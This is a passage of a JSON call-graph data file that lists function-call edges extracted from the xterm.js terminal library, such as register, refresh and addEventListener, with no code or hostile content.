"defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "provideLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasExtendedAttrs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getLinkData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasExtendedAttrs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addRefreshCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_runRefreshCallbacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_runRefreshCallbacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_runRefreshCallbacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onA11yChar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onA11yTab"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onWillOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reportFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleColorEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "modifyColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "modifyColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "buffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleScreenReaderModeOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTextAreaFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_showCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTextAreaBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_syncTextArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_initGlobal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_bindKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_bindKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyPress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionstart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionupdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_inputEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCompositionElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createDocumentFragment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCursorStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTextAreaFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTextAreaBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onRequestScrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCursorMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_syncTextArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleMouseDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onSpecificOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_initGlobal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bindMouse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bindMouse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getMouseReportCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shouldForceSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getLinesScrolled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTouchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTouchMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCursorStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shouldColumnSelect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_showCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "paste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomKeyEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomWheelEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deregisterCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deregister"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelectionPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToBottom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", 